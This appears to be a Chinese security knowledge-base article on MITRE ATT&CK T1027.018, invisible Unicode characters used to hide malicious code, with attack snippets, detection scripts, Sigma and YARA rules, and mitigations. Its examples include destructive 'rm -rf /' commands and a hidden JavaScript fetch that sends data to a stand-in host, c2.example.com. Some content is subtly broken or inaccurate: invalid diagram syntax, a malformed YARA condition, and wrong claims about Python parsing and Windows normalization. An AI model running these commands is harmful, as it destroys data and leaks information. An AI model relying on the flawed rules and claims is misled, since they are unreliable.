

# 不可见Unicode字符 (T1027.018)

## 1. 概述

**不可见Unicode字符**（T1027.018）是 MITRE ATT&CK v19 Enterprise 矩阵中 **混淆文件或信息**（T1027）父技术的子技术之一，归属于 **隐蔽**（TA0005）战术。攻击者利用 Unicode 标准中不可见或宽度为零的字符（如零宽空格 U+200B、零宽连接符 U+200D、从右到左覆盖 U+202E 等）在源代码、脚本、命令行参数、文件路径、配置文件、邮件内容中隐藏恶意指令、绕过安全审查、规避字符串匹配检测。

Unicode 标准为支持全球多种语言定义了超过 14 万个码点，其中部分码点对应的字符在普通终端、文本编辑器、IDE 中默认不显示或显示为空白。这些不可见字符在合法场景中用于文本布局、连字处理、双向文本渲染等用途，但被攻击者滥用后可用于在看似正常的代码或文本中嵌入人类肉眼无法识别的恶意内容。

### 一句话通俗理解

> **用肉眼看不到的字符在代码或命令里藏毒，编辑器以为是空白，实际是恶意指令**

### 30 秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者利用 Unicode 中不可见字符（零宽空格、RTL 覆盖等）在代码、命令、路径中隐藏恶意指令 |
| 为什么危险？ | 不可见字符在终端、编辑器、代码审查工具中默认不显示，肉眼审查无法发现；安全工具若未启用 Unicode 规范化也会漏检 |
| 谁需要关心？ | 开发人员、代码审查者、SOC 分析师、CI/CD 流水线运维、邮件安全运维 |
| 你的第一步防御 | 在 IDE、终端、代码审查工具中启用"显示不可见字符"功能；CI/CD 流水线部署 Unicode 字符扫描器拒绝可疑提交 |
| 如果只做一件事 | 在 PowerShell 中启用脚本块日志（ScriptBlock Logging），记录实际执行的命令内容而非源文本 |

### 难度等级

⭐⭐ 中级 - 需要理解 Unicode 标准、字符编码、终端渲染、命令解析机制

### 前置知识检查

**读这个文件需要什么？**

- [ ] Unicode 标准基础（码点、UTF-8/UTF-16 编码、双向文本算法）
- [ ] 不可见 Unicode 字符类别（零宽字符、双向控制字符、格式字符）
- [ ] MITRE ATT&CK T1027（混淆文件或信息）父技术总览
- [ ] 命令行参数解析机制（shell、cmd、PowerShell）
- [ ] 源代码审查流程（PR、code review、CI/CD）
- [ ] 文件名与路径在不同操作系统中的字符处理差异

## 2. 工作原理

### 2.1 不可见 Unicode 字符分类

Unicode 标准中可被攻击者滥用的不可见字符主要分为以下几类：

| 字符类别 | 代表码点 | 字符名称 | 合法用途 | 攻击滥用 |
|---------|---------|---------|---------|---------|
| **零宽字符** | U+200B | 零宽空格 (Zero Width Space) | 标记可换行点 | 在代码中插入不可见分隔符，绕过字符串匹配 |
| | U+200C | 零宽非连接符 (ZWNJ) | 阻止连字 | 隐藏命令分隔符 |
| | U+200D | 零宽连接符 (ZWJ) | 触发连字（如 emoji 组合） | 隐藏控制字符 |
| | U+2060 | 单词连接符 (Word Joiner) | 阻止换行 | 替代空格隐藏指令 |
| | U+FEFF | 零宽不换行空格 (BOM) | 字节顺序标记 | 隐藏文件开头指令 |
| **双向控制字符** | U+202E | 从右到左覆盖 (RLO) | 阿拉伯语/希伯来语渲染 | 反转文件名显示顺序，伪装扩展名 |
| | U+202D | 从左到右覆盖 (LRO) | 强制从左到右渲染 | 配合 RLO 制造视觉欺骗 |
| | U+200E | 从左到右标记 (LRM) | 双向文本边界 | 隐藏分隔符 |
| | U+200F | 从右到左标记 (RTL) | 双向文本边界 | 隐藏分隔符 |
| **格式字符** | U+00AD | 软连字符 (Soft Hyphen) | 标记可断字位置 | 在命令中插入不可见分隔 |
| | U+034F | 组合用图形连接符 | 阻止组合字符渲染 | 隐藏控制字符 |
| | U+180E | 蒙古文元音分隔符 | 蒙古文排版 | 不可见分隔 |
| **特殊空格** | U+00A0 | 不换行空格 (NBSP) | 防止空格处换行 | 替代普通空格绕过检测 |
| | U+2000-U+200A | 各种宽度空格 | 排版对齐 | 替代普通空格 |
| | U+3000 | 全角空格 | CJK 文本 | 在中文环境中隐藏分隔 |
| **同形字符** | U+0410 | 西里尔字母 А | 俄语文本 | 替代拉丁字母 A，制造同形攻击 |
| | U+03BF | 希腊字母 ο | 希腊语文本 | 替代拉丁字母 o |
| | U+FF21 | 全角 A | CJK 全角文本 | 替代半角 A |

### 2.2 不可见字符如何隐藏恶意指令

#### 机制一：命令分隔符隐藏

在 shell 命令中，分号 `;`、管道 `|`、逻辑与 `&&` 等是命令分隔符。攻击者可在这些分隔符前后插入零宽字符，使肉眼审查时看似单一的命令实际上是多条命令串联：

```bash
# 表面看起来：
echo "hello"
# 实际包含 U+200B 零宽空格在 echo 和 "hello" 之间
# 终端显示一样，但实际命令是 echo<U+200B>"hello"
# 部分解析器将此视为单一 token，绕过 "echo hello" 的检测规则

# 更危险的情况：U+200B 隐藏命令分隔
ls<U+200B>;rm -rf /
# 肉眼看到 "ls;rm -rf /" 时知道是两条命令
# 但若 U+200B 在分号前，部分解析器行为异常
```

#### 机制二：文件名/路径视觉欺骗

利用 U+202E（RLO）反转文件名显示顺序，使 `evilexe.txt` 显示为 `txt.evilexe`，或更典型的——使 `invoice‮txt.exe` 显示为 `invoiceexe.txt`：

```
文件名实际字符序列：invoice<U+202E>txt.exe
终端显示效果：invoiceexe.txt
实际扩展名：.exe（操作系统按字符序列识别）
```

这是经典的"从右到左覆盖"攻击，最早由 MITRE 在 ATT&CK 中归入 T1036.002（从右至左覆盖），但在 T1027.018 中扩展为更广义的不可见字符滥用——包括零宽字符在文件名中的隐藏。

#### 机制三：源代码中的不可见指令

在源代码中插入不可见字符，使代码审查时看不到隐藏的逻辑：

```python
# 表面看到的 Python 代码
def calculate(x, y):
    return x + y

# 实际可能存在的隐藏代码（U+200B 用 [ZWSP] 表示）
def calculate(x, y):
    [ZWSP]import os; os.system("malicious_command")
    return x + y
```

零宽字符在 Python 中默认不是语法错误（视作空白），但部分解释器会执行包含这些字符的语句。在 JavaScript 中更严重——零宽字符可作为变量名的一部分，攻击者可定义 `[ZWSP]` 作为变量名执行恶意逻辑。

#### 机制四：配置文件中的隐藏指令

在 YAML、JSON、INI 等配置文件中插入不可见字符，使运维人员审查时看不到隐藏的配置项：

```yaml
# 表面看到的 YAML 配置
database:
  host: localhost
  port: 5432

# 实际可能存在的隐藏配置（U+200B 用 [ZWSP] 表示）
database:
  host: localhost
  port: 5432
[ZWSP]backdoor:
[ZWSP]  enabled: true
[ZWSP]  url: https://c2.example.com
```

部分 YAML 解析器会将 `[ZWSP]backdoor` 识别为合法的顶级键，使隐藏配置生效。

#### 机制五：用户名/账户名欺骗

在用户名中插入不可见字符，使管理员审查用户列表时看似重复或正常的用户名实际上是不同的账户：

```
用户名1: admin
用户名2: admin<U+200B>  (肉眼看起来与 admin 相同)
用户名3: admin<U+200C>  (肉眼看起来与 admin 相同)
```

操作系统将这些视为三个不同的账户，攻击者可创建隐藏的管理员账户。

### 2.3 与 T1036.002（从右至左覆盖）的边界

T1036.002 专注于 U+202E 字符反转文件名显示顺序的伪装攻击；T1027.018 涵盖更广泛的不可见 Unicode 字符滥用，包括零宽字符、双向控制字符、格式字符在代码、命令、配置、文本中的混淆使用。两者在 U+202E 上有交集，但 T1027.018 的覆盖面更广。

### 2.4 攻击场景分布

不可见 Unicode 字符攻击的主要场景：

1. **恶意代码投递**：在脚本中隐藏恶意命令，绕过代码审查
2. **供应链攻击**：在开源项目 PR 中隐藏后门（如 2021 年 PHP 主仓库后门事件）
3. **钓鱼攻击**：在邮件中隐藏恶意链接或指令
4. **权限提升**：在配置文件中隐藏提权规则
5. **持久化**：在计划任务、cron、启动项中隐藏恶意命令
6. **横向移动**：在 SSH 公钥、Kerberos 票据中隐藏特殊字符
7. **代码审计绕过**：在合规检查中隐藏恶意逻辑

## 3. 攻击流程

```mermaid
graph TD
    A["攻击者选定目标场景"] --> B["选择不可见字符"]
    B --> B1["零宽字符 U+200B/200C/200D"]
    B --> B2["双向控制 U+202E/202D"]
    B --> B3["格式字符 U+00AD/034F"]
    B --> B4["特殊空格 U+00A0/3000"]
    B --> B5["同形字符 U+0410/FF21"]

    B1 --> C["构造恶意内容"]
    B2 --> C
    B3 --> C
    B4 --> C
    B5 --> C

    C --> D{"选择投递载体"}
    D -->|"源代码PR"| E1["开源项目提交隐藏后门"]
    D -->|"脚本文件"| E2["PowerShell/Bash脚本"]
    D -->|"配置文件"| E3["YAML/JSON/INI"]
    D -->|"文件名/路径"| E4["可执行文件伪装"]
    D -->|"邮件/聊天"| E5["钓鱼消息隐藏链接"]
    D -->|"用户名/账户"| E6["创建隐藏账户"]

    E1 --> F["受害者接收并查看"]
    E2 --> F
    E3 --> F
    E4 --> F
    E5 --> F
    E6 --> F

    F --> G["肉眼审查通过<br/>编辑器/IDE不显示"]
    G --> H["系统解析实际内容<br/>包含隐藏指令"]
    H --> I{"执行路径"}
    I -->|"脚本执行"| J1["隐藏命令被解释器执行"]
    I -> "配置加载" |> J2["隐藏配置项生效"]
    I -> "文件运行" |> J3["恶意可执行文件启动"]
    I -> "账户使用" |> J4["隐藏账户登录"]
    I -> "链接点击" |> J5["钓鱼URL触发"]

    J1 --> K["恶意操作<br/>数据窃取/持久化/横向移动"]
    J2 --> K
    J3 --> K
    J4 --> K
    J5 --> K

    style B fill:#feca57,stroke:#333,stroke-width:2px
    style G fill:#ff6b6b,stroke:#333,stroke-width:2px
    style K fill:#ff6b6b,stroke:#333,stroke-width:2px
```

**步骤详解：**

1. **目标场景选定**：攻击者根据攻击目标选择载体——源代码、脚本、配置、文件名等
2. **字符选择**：根据目标场景的字符处理特性选择合适的不可见 Unicode 字符
3. **内容构造**：将不可见字符嵌入恶意指令，使肉眼审查时不可见
4. **投递**：通过 PR、邮件附件、配置文件部署、文件下载等方式送达
5. **审查通过**：受害者肉眼审查代码/配置/文件名时，因编辑器不显示不可见字符而通过
6. **系统解析**：操作系统、解释器、解析器按字符序列处理，识别隐藏指令
7. **执行**：隐藏命令被执行、隐藏配置生效、伪装文件运行、隐藏账户登录
8. **后续操作**：数据窃取、持久化建立、横向移动等

## 4. 关键技术细节

### 4.1 零宽字符的编码表示

各零宽字符在不同编码下的字节序列：

| 字符 | Unicode | UTF-8 字节 | UTF-16LE 字节 | 显示效果 |
|------|---------|-----------|---------------|---------|
| 零宽空格 (ZWSP) | U+200B | E2 80 8B | 0B 20 | 不可见 |
| 零宽非连接符 (ZWNJ) | U+200C | E2 80 8C | 0C 20 | 不可见 |
| 零宽连接符 (ZWJ) | U+200D | E2 80 8D | 0D 20 | 不可见 |
| 单词连接符 (WJ) | U+2060 | E2 81 A0 | 60 20 | 不可见 |
| 字节顺序标记 (BOM) | U+FEFF | EF BB BF | FF FE | 不可见 |
| 软连字符 (SHY) | U+00AD | C2 AD | AD 00 | 不可见 |
| 蒙古文元音分隔符 | U+180E | E1 A0 8E | 0E 18 | 不可见 |
| 不换行空格 (NBSP) | U+00A0 | C2 A0 | A0 00 | 空白 |

### 4.2 在 PowerShell 中插入零宽字符

攻击者可在 PowerShell 脚本中插入零宽字符，绕过简单字符串匹配检测：

```powershell
# 表面看到的命令
Get-Process | Where-Object {$_.Name -eq "explorer"}

# 实际可能包含 U+200B（用 [ZWSP] 表示）
Get-Process [ZWSP]| Where-Object {$_.Name -eq "explorer"}

# PowerShell 解析时，U+200B 被视为空白字符，命令正常执行
# 但简单的字符串匹配 "Get-Process |" 规则会失效
```

更隐蔽的攻击——在变量名中插入零宽字符：

```powershell
# 攻击者定义的隐藏变量
${[ZWSP]malicious} = "payload"
Invoke-Expression ${[ZWSP]malicious}

# 肉眼审查时看到 ${malicious} 但实际是 ${[ZWSP]malicious}
# 部分代码审查工具将其显示为 ${malicious}
```

### 4.3 在 Bash 中利用 RTL 覆盖

利用 U+202E 反转命令显示顺序，使管理员审查 shell 历史时看到无害命令：

```bash
# 攻击者实际输入的命令
echo "hello";‮exec /tmp/malware

# 终端显示效果（U+202E 后字符反转）
echo "hello"; reswam/pmt/ cexe

# 管理员审查 shell 历史时看到混乱的字符
# 但 Bash 实际执行的是 echo "hello";exec /tmp/malware
```

### 4.4 在 Python 源代码中隐藏导入

```python
# 表面看到的代码（编辑器默认不显示 U+200B）
import os
import sys

def main():
    print("Hello")

if __name__ == "__main__":
    main()

# 实际代码（U+200B 用 [ZWSP] 表示）
import os
import sys
[ZWSP]import subprocess; subprocess.call(["rm", "-rf", "/"])

def main():
    print("Hello")

if __name__ == "__main__":
    main()

# Python 解释器执行 [ZWSP]import subprocess...
# 因为 [ZWSP] 在 Python 中不是有效标识符开头
# 但部分场景下可绕过 lint 工具，再配合其他技巧触发执行
```

### 4.5 在 JavaScript 中利用零宽字符构造隐藏逻辑

JavaScript 允许零宽字符作为变量名的一部分，攻击者可构造完全不可见的逻辑：

```javascript
// 表面看到的代码
function calculate(x, y) {
    return x + y;
}

// 实际代码（U+200B 用 _ZWSP_ 表示，U+200C 用 _ZWNJ_ 表示）
function calculate(x, y) {
    const _ZWSP_ = fetch('https://c2.example.com/log?data=' + x + y);
    return x + y;
}

// 肉眼审查看到空白行
// 实际定义了名为 U+200B 的变量并执行 fetch
```

### 4.6 文件名双向覆盖攻击

构造一个名为 `invoice<U+202E>gpj.exe` 的文件：

- 操作系统识别的真实扩展名：`.exe`
- 终端/资源管理器显示效果：`invoiceexe.jpg`
- 用户以为是无害的图片文件 `invoiceexe.jpg`
- 双击后实际执行 `.exe` 文件

更复杂的组合——`report<U+202E>txt.exe` 显示为 `reportexe.txt`：

```
实际字符序列：r e p o r t <U+202E> t x t . e x e
显示效果：    r e p o r t e x e . t x t
                ↑报告    ↑exe（被反转到前面）  ↑txt（被反转到后面）
```

### 4.7 同形字符攻击（Homoglyph Attack）

利用 Unicode 中不同语言但视觉相同的字符，构造看似合法的标识符：

```
拉丁字母 A (U+0041) vs 西里尔字母 А (U+0410)
拉丁字母 o (U+006F) vs 希腊字母 ο (U+03BF)
拉丁字母 e (U+0065) vs 西里尔字母 е (U+0435)
```

攻击者创建一个看似 `admin` 的变量名，实际使用 `аdmin`（第一个字符是西里尔字母 А），与合法的 `admin` 是不同的标识符：

```python
# 表面看到的代码
admin = "legitimate_user"
аdmin = "attacker_user"  # 第一个字符是西里尔字母 А

def check_access(user):
    if user == admin:
        return True
    # 实际逻辑可能误用 аdmin
```

### 4.8 在 SSH 公钥中插入隐藏字符

SSH 公钥文件 `authorized_keys` 中插入不可见字符，使管理员审查时看似合法的公钥实际包含特殊选项：

```
# 表面看到的公钥
ssh-rsa AAAAB3Nza... user@host

# 实际可能包含 U+200B（用 [ZWSP] 表示）
ssh-rsa AAAAB3Nza... [ZWSP]command="malicious_script",no-pty user@host

# SSH 守护进程解析时识别 command= 选项
# 但管理员审查时看不到这些选项
```

### 4.9 在 YAML 配置中隐藏恶意键

```yaml
# 表面看到的 Kubernetes Deployment 配置
apiVersion: apps/v1
kind: Deployment
metadata:
  name: web-app
spec:
  containers:
  - name: web
    image: nginx:1.21

# 实际可能包含 U+200B（用 [ZWSP] 表示）在 image 字段后
apiVersion: apps/v1
kind: Deployment
metadata:
  name: web-app
spec:
  containers:
  - name: web
    image: nginx:1.21
[ZWSP]  - name: backdoor
[ZWSP]    image: malicious/backdoor:latest
[ZWSP]    securityContext:
[ZWSP]      privileged: true
```

部分 YAML 解析器会忽略行首的不可见字符，将 `[ZWSP]  - name: backdoor` 识别为合法的列表项。

## 5. 检测方法

### 5.1 检测思路总览



### 5.2 代码与配置层检测

**IDE 配置：**

- VS Code：启用 `"editor.renderWhitespace": "all"`、安装 `Gremlins` 扩展高亮不可见字符
- IntelliJ IDEA：启用 `Show Whitespaces`、安装 `Unicode Inspector` 插件
- Vim/Neovim：配置 `set list` 显示不可见字符，使用 `vim-gremlins` 插件

**CI/CD 流水线扫描器：**

部署 Unicode 字符扫描器，拒绝包含可疑不可见字符的提交：

```python
# Unicode 扫描脚本示意
import unicodedata

SUSPICIOUS_CHARS = [
    0x200B, 0x200C, 0x200D,  # 零宽字符
    0x200E, 0x200F, 0x202A, 0x202B, 0x202C, 0x202D, 0x202E,  # 双向控制
    0x2060, 0xFEFF,  # 单词连接符、BOM
    0x00AD, 0x034F, 0x180E,  # 格式字符
    0x00A0, 0x2000, 0x2001, 0x2002, 0x2003, 0x2004, 0x2005,
    0x2006, 0x2007, 0x2008, 0x2009, 0x200A, 0x3000,  # 特殊空格
]

def scan_file(file_path):
    issues = []
    with open(file_path, 'r', encoding='utf-8') as f:
        for line_num, line in enumerate(f, 1):
            for col, char in enumerate(line):
                if ord(char) in SUSPICIOUS_CHARS:
                    char_name = unicodedata.name(char, 'UNKNOWN')
                    issues.append({
                        'line': line_num,
                        'col': col + 1,
                        'char': f'U+{ord(char):04X}',
                        'name': char_name,
                    })
    return issues
```

**Git Hook 拦截：**

```bash
#!/bin/bash
# pre-commit hook 拦截可疑 Unicode 字符
SUSPICIOUS=$(grep -Pn '[\x{200B}\x{200C}\x{200D}\x{202E}\x{202D}\x{2060}\x{FEFF}\x{00AD}\x{180E}\x{200E}\x{200F}]' "$@")
if [ -n "$SUSPICIOUS" ]; then
    echo "ERROR: 检测到不可见 Unicode 字符"
    echo "$SUSPICIOUS"
    exit 1
fi
```

### 5.3 命令与路径层检测

**PowerShell 脚本块日志（EID 4104）：**

启用 PowerShell ScriptBlock Logging，记录实际执行的命令内容（已规范化部分不可见字符）：

```powershell
# 启用脚本块日志
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" `
    -Name "EnableScriptBlockLogging" -Value 1

# EID 4104 事件记录脚本块的实际执行内容
# 可检测到包含不可见字符的命令
```

**Sysmon Event ID 1（进程创建）：**

```xml
<RuleGroup name="Suspicious Unicode in CommandLine" groupRelation="or">
    <CommandLine condition="contains">
        <!-- 零宽空格 UTF-8 字节序列 -->
    </CommandLine>
</RuleGroup>
```

直接检测字节序列需要 Sysmon 配合自定义规则，或在 ELK/Splunk 中对 CommandLine 字段做 Unicode 字符扫描。

**文件名 Unicode 规范化扫描：**

```python
import unicodedata

def detect_suspicious_filename(filename):
    issues = []
    # 检测不可见字符
    for i, char in enumerate(filename):
        if ord(char) in [0x200B, 0x200C, 0x200D, 0x202E, 0x202D, 0x2060, 0xFEFF, 0x00AD, 0x180E]:
            issues.append(f"位置 {i}: 不可见字符 U+{ord(char):04X}")
    # 检测同形字符
    suspicious_homoglyphs = {
        0x0410: 'А (西里尔) 替代 A (拉丁)',
        0x0430: 'а (西里尔) 替代 a (拉丁)',
        0x03BF: 'ο (希腊) 替代 o (拉丁)',
        0x0435: 'е (西里尔) 替代 e (拉丁)',
        0xFF21: 'Ａ (全角) 替代 A (半角)',
    }
    for i, char in enumerate(filename):
        if ord(char) in suspicious_homoglyphs:
            issues.append(f"位置 {i}: {suspicious_homoglyphs[ord(char)]}")
    # Unicode 规范化检测
    normalized = unicodedata.normalize('NFKC', filename)
    if normalized != filename:
        issues.append(f"规范化后不同: {filename!r} -> {normalized!r}")
    return issues
```

### 5.4 账户与身份层检测

**用户名 Unicode 规范化比对：**

定期扫描 Active Directory / LDAP 中的用户名，识别仅含不可见字符差异的账户：

```python
import unicodedata
import ldap3

def scan_ad_usernames():
    server = ldap3.Server('ldaps://dc.example.com')
    conn = ldap3.Connection(server, user='admin', password='pwd')
    conn.bind()
    conn.search('DC=example,DC=com', '(objectClass=user)', attributes=['sAMAccountName'])
    
    usernames = {}
    for entry in conn.entries:
        name = entry.sAMAccountName.value
        normalized = unicodedata.normalize('NFKC', name)
        # 移除所有不可见字符后的"裸"用户名
        stripped = ''.join(c for c in normalized if not unicodedata.category(c).startswith('C'))
        if stripped in usernames:
            print(f"可疑: '{name}' 与 '{usernames[stripped]}' 规范化后相同")
        usernames[stripped] = name
```

**SSH 公钥审计：**

```bash
# 审计 authorized_keys 中的可疑选项
awk '{print NR, $0}' ~/.ssh/authorized_keys | grep -P '[\x{200B}\x{202E}\x{FEFF}]'
# 检测每行是否包含 command=、no-pty、permitlisten 等可疑选项
awk '{for(i=1;i<=NF;i++) if($i ~ /^(command|no-pty|permitlisten|permitopen)=/) print NR, $i}' ~/.ssh/authorized_keys
```

### 5.5 终端与编辑器层检测

**终端模拟器配置：**

- 启用"显示不可见字符"选项（如 `urxvt` 的 `+vc` 选项，`konsole` 的 `Show Non-printing Characters`）
- 在终端 prompt 中显示当前命令的字符数，便于发现异常

**邮件客户端配置：**

- 配置邮件客户端显示原始字符代码（如 Outlook 的"显示源代码"）
- 邮件网关部署 Unicode 字符扫描规则，识别邮件正文、附件文件名中的不可见字符

## 6. 缓解措施

### 6.1 开发流程缓解

- **代码审查强制启用不可见字符显示**：所有开发人员 IDE 必须启用"显示空白字符"和"显示不可见 Unicode 字符"
- **CI/CD 流水线部署扫描器**：在 PR 合并前自动扫描所有变更文件，拒绝包含可疑不可见字符的提交
- **Git Hook 拦截**：在 pre-commit、pre-push 钩子中检测不可见字符
- **代码审查清单**：在审查清单中加入"检查不可见 Unicode 字符"项

### 6.2 系统配置缓解

- **PowerShell 脚本块日志**：启用 EID 4104，记录实际执行的命令内容
- **Sysmon 配置**：配置 Event ID 1 记录完整 CommandLine，配置 Event ID 11 监控可疑文件名落地
- **终端模拟器配置**：默认显示不可见字符（可仅对管理员账户启用，避免普通用户体验问题）
- **文件系统 Unicode 规范化**：在 Linux/macOS（默认 NFC）和 Windows（默认 NFD）混合环境中统一规范

### 6.3 输入校验

- **用户名/账户名校验**：在用户注册、账户创建接口拒绝包含不可见字符的用户名
- **文件名校验**：上传文件时校验文件名不包含不可见字符
- **配置文件校验**：YAML/JSON 解析器配置为拒绝包含不可见字符的键名
- **代码提交校验**：代码仓库 webhook 在提交时扫描不可见字符

### 6.4 邮件与文档安全

- **邮件网关 Unicode 扫描**：扫描邮件正文、附件文件名中的不可见字符
- **Office 文档校验**：在 Office 文档解析时识别不可见字符
- **PDF 文档校验**：PDF 阅读器配置为显示不可见字符

### 6.5 用户意识培训

- 培训开发人员识别不可见 Unicode 字符风险
- 培训管理员审查 shell 历史、配置文件时启用不可见字符显示
- 培训用户不打开包含异常字符的邮件附件

## 7. 检测规则

### 7.1 Sigma 规则（命令行包含不可见字符）

```yaml
title: 检测命令行包含可疑不可见Unicode字符
id: 8baf2c1d-9c0e-4e1b-a4f5-8b3e1c5c5c5d
status: experimental
description: 检测进程命令行参数中包含零宽字符、双向控制字符等不可见Unicode字符，可能为T1027.018攻击
references:
    - https://attack.mitre.org/techniques/T1027/018/
    - https://unicode.org/reports/tr9/
author: ATT&CK 知识库
date: 2026/07/28
tags:
    - attack.defense_evasion
    - attack.t1027
    - attack.t1027.018
logsource:
    category: process_creation
    product: windows
detection:
    selection_zwsp:
        CommandLine|contains:
            - '\u200b'
            - '\u200c'
            - '\u200d'
    selection_bidi:
        CommandLine|contains:
            - '\u202e'
            - '\u202d'
            - '\u200e'
            - '\u200f'
    selection_format:
        CommandLine|contains:
            - '\u00ad'
            - '\u2060'
            - '\ufeff'
    condition: selection_zwsp or selection_bidi or selection_format
falsepositives:
    - 多语言文本处理程序
    - 国际化测试工具
level: high
```

### 7.2 YARA 规则（识别包含不可见字符的文件）

```yar
rule T1027_018_Invisible_Unicode_ZeroWidth
{
    meta:
        description = "检测包含零宽Unicode字符的源代码或脚本文件"
        author = "ATT&CK 知识库"
        date = "2026-07-28"
        mitre_attack = "T1027.018"
    strings:
        $zwsp_utf8 = { E2 80 8B }       // U+200B 零宽空格
        $zwnj_utf8 = { E2 80 8C }       // U+200C 零宽非连接符
        $zwj_utf8 = { E2 80 8D }        // U+200D 零宽连接符
        $wj_utf8 = { E2 81 A0 }         // U+2060 单词连接符
        $shy_utf8 = { C2 AD }           // U+00AD 软连字符
        $mongolian_utf8 = { E1 A0 8E }  // U+180E 蒙古文元音分隔符
    condition:
        any of them
}

rule T1027_018_Invisible_Unicode_Bidi
{
    meta:
        description = "检测包含双向控制字符的文件"
        author = "ATT&CK 知识库"
        date = "2026-07-28"
        mitre_attack = "T1027.018"
    strings:
        $rlo_utf8 = { E2 80 AE }        // U+202E 从右到左覆盖
        $lro_utf8 = { E2 80 AD }        // U+202D 从左到右覆盖
        $lre_utf8 = { E2 80 AA }        // U+202A 从左到右嵌入
        $rle_utf8 = { E2 80 AB }        // U+202B 从右到左嵌入
        $pdf_utf8 = { E2 80 AC }        // U+202C 弹出双向格式
        $lrm_utf8 = { E2 80 8E }        // U+200E 从左到右标记
        $rlm_utf8 = { E2 80 8F }        // U+200F 从右到左标记
    condition:
        any of them
}

rule T1027_018_Invisible_Unicode_BOM
{
    meta:
        description = "检测文件中异常位置的BOM字符（U+FEFF）"
        author = "ATT&CK 知识库"
        date = "2026-07-28"
        mitre_attack = "T1027.018"
    strings:
        $bom_utf8 = { EF BB BF }
        $bom_utf16le = { FF FE }
        $bom_utf16be = { FE FF }
    condition:
        # BOM 不在文件开头出现（异常位置）
        $bom_utf8 at 0 or $bom_utf16le at 0 or $bom_utf16be at 0
        or ($bom_utf8 and not $bom_utf8 at 0)
        or ($bom_utf16le and not $bom_utf16le at 0)
}
```

### 7.3 自定义检测脚本（Python）

```python
#!/usr/bin/env python3
"""
T1027.018 不可见Unicode字符检测脚本
扫描指定目录下所有文本文件，识别可疑不可见字符
"""
import os
import sys
import unicodedata
from pathlib import Path

SUSPICIOUS_RANGES = [
    (0x200B, 0x200F, "零宽/双向标记"),
    (0x202A, 0x202E, "双向控制字符"),
    (0x2060, 0x206F, "格式字符"),
    (0xFEFF, 0xFEFF, "BOM"),
    (0x00AD, 0x00AD, "软连字符"),
    (0x034F, 0x034F, "组合用图形连接符"),
    (0x180E, 0x180E, "蒙古文元音分隔符"),
    (0x00A0, 0x00A0, "不换行空格"),
    (0x2000, 0x200A, "各种宽度空格"),
    (0x3000, 0x3000, "全角空格"),
]

def is_suspicious(char):
    code = ord(char)
    for start, end, name in SUSPICIOUS_RANGES:
        if start <= code <= end:
            return True, name
    # 同形字符检测
    HOMOGLYPHS = {
        0x0410: 'А (西里尔) 替代 A',
        0x0430: 'а (西里尔) 替代 a',
        0x0412: 'В (西里尔) 替代 B',
        0x0435: 'е (西里尔) 替代 e',
        0x041A: 'К (西里尔) 替代 K',
        0x041C: 'М (西里尔) 替代 M',
        0x041D: 'Н (西里尔) 替代 H',
        0x043E: 'о (西里尔) 替代 o',
        0x0420: 'Р (西里尔) 替代 P',
        0x0421: 'С (西里尔) 替代 C',
        0x0422: 'Т (西里尔) 替代 T',
        0x0391: 'Α (希腊) 替代 A',
        0x03BF: 'ο (希腊) 替代 o',
        0xFF21: 'Ａ (全角) 替代 A',
    }
    if code in HOMOGLYPHS:
        return True, HOMOGLYPHS[code]
    return False, None

def scan_file(file_path):
    issues = []
    try:
        with open(file_path, 'r', encoding='utf-8', errors='replace') as f:
            content = f.read()
        for line_num, line in enumerate(content.splitlines(), 1):
            for col, char in enumerate(line):
                suspicious, name = is_suspicious(char)
                if suspicious:
                    issues.append({
                        'file': file_path,
                        'line': line_num,
                        'col': col + 1,
                        'char': f'U+{ord(char):04X}',
                        'name': name,
                        'context': line[max(0,col-10):col+10]
                    })
    except Exception as e:
        issues.append({'file': file_path, 'error': str(e)})
    return issues

def main():
    if len(sys.argv) < 2:
        print("用法: python detect_unicode.py <目录或文件>")
        sys.exit(1)
    
    target = Path(sys.argv[1])
    files = [target] if target.is_file() else list(target.rglob('*'))
    
    total_issues = 0
    for f in files:
        if not f.is_file():
            continue
        if f.suffix.lower() in ['.exe', '.dll', '.so', '.dylib', '.png', '.jpg', '.gif']:
            continue
        issues = scan_file(str(f))
        if issues:
            for issue in issues:
                if 'error' in issue:
                    print(f"[ERR] {issue['file']}: {issue['error']}")
                else:
                    print(f"[{issue['char']}] {issue['file']}:{issue['line']}:{issue['col']} "
                          f"{issue['name']} 上下文: {issue['context']!r}")
                    total_issues += 1
    print(f"\n总计: {total_issues} 个可疑字符")

if __name__ == '__main__':
    main()
```

## 8. 防御绕过技巧

攻击者为规避不可见 Unicode 字符检测，发展出以下对抗技巧：

1. **同形字符替代**：使用西里尔字母 А、希腊字母 ο 等替代拉丁字母，规避基于零宽字符的检测规则。检测方需扩展到同形字符识别
2. **组合字符滥用**：使用 Unicode 组合字符（如 U+0301 重音符号）附加在普通字符上，制造视觉相似但字符序列不同的标识符
3. **规范化差异利用**：不同操作系统、不同编程语言对 Unicode 规范化（NFC/NFD/NFKC/NFKD）处理不同，攻击者选择检测方的规范化盲区
4. **编码层混淆**：在 UTF-8、UTF-16、UTF-32 之间转换时插入不可见字符，部分检测工具仅扫描单一编码
5. **HTML 实体编码**：在 HTML 中使用 `&#8203;`（U+200B 的 HTML 实体）插入零宽字符，规避基于字节序列的检测
6. **Base64 编码包裹**：将含不可见字符的内容 Base64 编码后传输，落地后再解码
7. **多语言环境伪装**：在多语言文本中混入不可见字符，使其看起来是合法的国际化文本
8. **零宽字符组合**：将多个零宽字符组合使用，制造二进制编码（如用 U+200B 表示 0，U+200C 表示 1），在文本中嵌入任意数据
9. **行尾不可见字符**：在行尾插入不可见字符，多数编辑器行尾不显示，但解析器仍会处理
10. **注释中嵌入**：在代码注释中嵌入零宽字符组合，编码完整命令，运行时再解码执行

## 9. 案例分析

### 案例1：PHP 主仓库后门事件（供应链攻击）

- **时间**：2021 年 3 月
- **目标**：PHP 官方仓库（git.php.net）
- **攻击组织**：未公开归因，疑似 APT 组织
